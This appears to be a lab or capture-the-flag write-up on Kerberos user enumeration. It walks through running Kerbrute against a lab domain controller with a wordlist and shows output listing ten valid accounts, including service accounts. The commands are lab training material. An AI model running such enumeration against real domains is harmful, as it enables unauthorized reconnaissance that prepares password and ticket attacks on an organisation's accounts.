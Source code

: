 1.) cd into the directory that you put Kerbrute

2.) Download the wordlist to enumerate with here

3.) ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt - This will brute force user accounts from a domain controller using a supplied wordlist

![](https://i.imgur.com/fSDrhyb.png)

Now enumerate on your own and find the rest of the users and more importantly service accounts.

```
cat /etc/hosts      
127.0.0.1       localhost
127.0.1.1       kali
10.10.113.254   magician
10.10.121.237   git.git-and-crumpets.thm
10.10.149.10    hipflasks.thm hipper.hipflasks.thm
10.10.91.93     raz0rblack raz0rblack.thm
10.10.234.77    lab.enterprise.thm
10.10.96.58     source
10.10.59.104    CONTROLLER.local
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```
```
┌──(kali㉿kali)-[~/Downloads/learning_kerberos]
└─$ mv kerbrute_linux_amd64 kerbrute         
                                                                                   
┌──(kali㉿kali)-[~/Downloads/learning_kerberos]
└─$ ls
kerbrute  User.txt
                                                                                   
┌──(kali㉿kali)-[~/Downloads/learning_kerberos]
└─$ chmod +x kerbrute 
```
```
┌──(kali㉿kali)-[~/Downloads/learning_kerberos]
└─$ ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/20/22 - Ronnie Flathers @ropnop

2022/08/20 13:15:16 >  Using KDC(s):
2022/08/20 13:15:16 >   CONTROLLER.local:88

2022/08/20 13:15:17 >  [+] VALID USERNAME:       admin1@CONTROLLER.local
2022/08/20 13:15:17 >  [+] VALID USERNAME:       administrator@CONTROLLER.local
2022/08/20 13:15:17 >  [+] VALID USERNAME:       admin2@CONTROLLER.local
2022/08/20 13:15:18 >  [+] VALID USERNAME:       machine1@CONTROLLER.local
2022/08/20 13:15:18 >  [+] VALID USERNAME:       user1@CONTROLLER.local
2022/08/20 13:15:18 >  [+] VALID USERNAME:       sqlservice@CONTROLLER.local
2022/08/20 13:15:18 >  [+] VALID USERNAME:       user2@CONTROLLER.local
2022/08/20 13:15:18 >  [+] VALID USERNAME:       user3@CONTROLLER.local
2022/08/20 13:15:18 >  [+] VALID USERNAME:       machine2@CONTROLLER.local
2022/08/20 13:15:18 >  [+] VALID USERNAME:       httpservice@CONTROLLER.local
2022/08/20 13:15:18 >  Done! Tested 100 usernames (10 valid) in 2.081 seconds
                                                                                
```